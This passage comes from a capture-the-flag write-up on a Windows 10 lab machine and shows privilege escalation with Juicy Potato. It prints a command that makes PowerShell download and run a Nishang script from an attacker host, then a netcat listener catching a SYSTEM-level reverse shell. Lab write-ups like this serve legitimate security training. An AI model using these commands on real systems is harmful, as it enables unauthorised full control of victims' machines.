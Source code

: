 It's Windows 10 Enterprise so we choose a CLSID from the right [page](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise), one that belongs to the SYSTEM account. In my example I run the program to launch PowerShell making it donwload and execute another Nishang shell that gives me a reverse shell:

```aaa
PS C:\users\destitute\downloads> ./juicy.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.37:9090/system.ps1')" -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

The reverse shell is established and we are NT Authority\SYSTEM, letting us access the proof.txt in Administrator's desktop:

```aaa
┌─[baud@parrot]─[~/conceal]
└──╼ $nc -lvnp 9898
listening on [any] 9898 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.116] 49705
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```

![img](/images/writeup-conceal/6.png)










